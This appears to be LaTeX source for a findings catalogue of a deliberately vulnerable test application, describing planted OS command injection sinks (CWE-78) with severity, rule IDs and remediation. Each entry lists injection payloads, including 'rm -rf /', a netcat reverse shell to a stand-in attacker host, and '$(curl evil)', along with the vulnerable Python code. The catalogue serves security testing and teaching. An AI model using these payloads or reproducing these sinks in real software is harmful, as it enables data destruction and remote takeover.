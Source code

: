 \documentclass[11pt,a4paper]{article}
\begin{document}
\noindent\textbf{Planted sink:}
\begin{lstlisting}
os.system("ping -c 1 " + host)
\end{lstlisting}
\noindent\textbf{What it is.} OS command injection: untrusted input is concatenated into a shell/command invocation.

\noindent\textbf{Exploitation variants.}
\begin{itemize}[leftmargin=1.4em,itemsep=1pt,topsep=2pt]
\item Inject shell metacharacters: `; rm -rf /`, `| nc attacker 4444 -e /bin/sh`, `\$(curl evil)`.
\item Use `\&\&`, `||`, backticks or `\$()` to chain arbitrary commands.
\item On `Runtime.exec(String)` the string is split naively, so spaces/quotes can be abused.
\end{itemize}
\noindent\textbf{Remediation.} Avoid the shell; use ProcessBuilder with an argument array and a fixed command, validate arguments.

\vspace{4pt}\hrule\vspace{6pt}
\subsection{VULN-05: CWE-78: OS Command Injection}
\noindent\textbf{Location:} \texttt{src/vulnapp/injection\_vulns.py}, line 44 \quad \textbf{Rule:} \texttt{python/os-command-injection} \quad \textbf{Severity:} 8.0
\\ \textbf{Reference:} \url{https://cwe.mitre.org/data/definitions/78.html}

\noindent\textbf{Planted sink:}
\begin{lstlisting}
return subprocess.check_output("cat " + filename, shell=True)
\end{lstlisting}
\noindent\textbf{What it is.} OS command injection: untrusted input is concatenated into a shell/command invocation.

\noindent\textbf{Exploitation variants.}
\begin{itemize}[leftmargin=1.4em,itemsep=1pt,topsep=2pt]
\item Inject shell metacharacters: `; rm -rf /`, `| nc attacker 4444 -e /bin/sh`, `\$(curl evil)`.
\item Use `\&\&`, `||`, backticks or `\$()` to chain arbitrary commands.
\item On `Runtime.exec(String)` the string is split naively, so spaces/quotes can be abused.
\end{itemize}
\noindent\textbf{Remediation.} Avoid the shell; use ProcessBuilder with an argument array and a fixed command, validate arguments.
\end{document}
